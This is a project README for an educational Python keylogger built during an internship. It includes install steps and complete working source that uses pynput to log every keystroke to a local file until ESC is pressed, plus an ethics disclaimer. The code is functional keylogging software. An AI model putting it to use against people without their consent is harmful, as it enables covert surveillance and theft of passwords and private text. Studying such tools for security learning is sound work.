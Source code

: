 Here is where you get started! Let's go!

Simple Keylogger in Python

Project Overview

Welcome to the Simple Keylogger in Python project! This project is part of my internship at Prodigy InfoTech. The goal of this task is to create a basic keylogger that captures and logs keystrokes. This project serves as a learning experience to understand how keyloggers work, their ethical implications, and the importance of cybersecurity.

Features
Keystroke Logging: Captures all keystrokes made by the user.
Special Key Handling: Identifies and logs special keys (e.g., Shift, Ctrl, etc.).
Logging to File: Saves the logged keystrokes to a specified text file.
Start/Stop Functionality: Listens for key press and release events to start and stop the keylogger.
Getting Started
Prerequisites
Ensure you have Python installed on your machine. You can download Python from here.

Installation
Clone the repository:


git clone https://github.com/Liyu-Desta/PRODIGY_CS_04.git
cd PRODIGY_CS_04
Install the required library:


pip install pynput
Usage
Navigate to the project directory:


cd PRODIGY_CS_04
Run the keylogger script:


python keylogger.py
Press keys on your keyboard to log them. The keystrokes will be saved to key_log.txt in the same directory.

To stop the keylogger, press the ESC key.

Code Explanation
The keylogger script is structured as follows:

python
Copy code
from pynput import keyboard

# Define the file where the keystrokes will be logged
log_file = "key_log.txt"

# Function to log the keystrokes
def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write(f'{key.char}')
            print(f'Logged key: {key.char}')  # Debugging print statement
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f'[{key}]')
            print(f'Logged special key: {key}')  # Debugging print statement

# Function to stop the keylogger (for demonstration, let's stop on ESC key)
def on_release(key):
    if key == keyboard.Key.esc:
        return False

# Start the listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
on_press: This function logs regular and special keystrokes to key_log.txt.
on_release: This function stops the keylogger when the ESC key is pressed.
keyboard.Listener: Starts the listener to monitor key press and release events.
Ethical Considerations
Important: This keylogger is for educational purposes only. Logging keystrokes without explicit permission is illegal and unethical. Always obtain consent from users before deploying any keylogging software. Use this knowledge responsibly to enhance cybersecurity.

License
This project is licensed under the MIT License. See the LICENSE file for details.

Acknowledgments
Prodigy InfoTech: For the opportunity to work on this project.
pynput Library: For providing an easy-to-use interface for keyboard and mouse input monitoring.
Contact
For any questions or inquiries, please contact me at tiragoliyu@gmail.com.
Happy Coding!
